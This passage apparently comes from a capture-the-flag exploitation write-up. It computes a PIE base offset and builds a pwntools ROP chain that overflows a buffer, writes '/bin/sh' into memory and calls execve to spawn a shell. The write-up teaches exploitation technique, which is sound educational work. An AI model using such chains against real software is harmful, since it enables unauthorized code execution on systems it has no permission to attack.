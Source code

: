 ```python
>>> 0x555555558010 -  0x555555554000
16400
```
Perfect !! we have bypass the `PIE` 😎

## Construction du payload

Now that we have bypassed `PIE`, let's construct the payload using the identified gadgets. 

## Part 1: Load /bin/sh into Memory

To write `/bin/sh` to a controlled memory address, we use the following gadgets:

`pop rdi ; ret` to control the `rdi` register.

`pop rax ; ret` to load `/bin/sh` into `rax`.

`mov qword ptr [rdi], rax ; ret` to write the value in `rax` (i.e., `/bin/sh`) to the address pointed to by `rdi`.

```python
bin_sh_address = elf_address + 16480 
bin_sh_hex = u64(b"/bin/sh\x00")

rop = b"A" * 40
rop += p64(pop_rdi)
rop += p64(bin_sh_address)
rop += p64(pop_rax)
rop += p64(bin_sh_hex)
rop += p64(mov_rdi_rax)
```
## Part 2: Prepare Arguments for the execve System Call

To execute `/bin/sh`, we need to prepare the arguments for the `execve` system call. The `execve` system call requires three arguments:

    rdi: Pointer to /bin/sh
    rsi: Pointer to argv (argument array), can be NULL
    rdx: Pointer to envp (environment variable array), can be NULL

We use the following gadgets to prepare these arguments:

    pop rdi ; ret to load the address of /bin/sh into rdi.
    pop rsi ; pop r15 ; ret to load NULL into rsi.
    pop rdx ; ret to load NULL into rdx.
    pop rax ; ret to load the syscall number for execve (59) into rax.
    syscall to perform the system call.

.
```python
rop += p64(pop_rdi)
rop += p64(bin_sh_address)  
rop += p64(pop_rsi_pop_r15)
rop += p64(0)*2
rop += p64(pop_rdx)
rop += p64(0)  
rop += p64(pop_rax)
rop += p64(59) 
rop += p64(syscall)
```
Which results in: `execve("/bin/sh", NULL, NULL)`
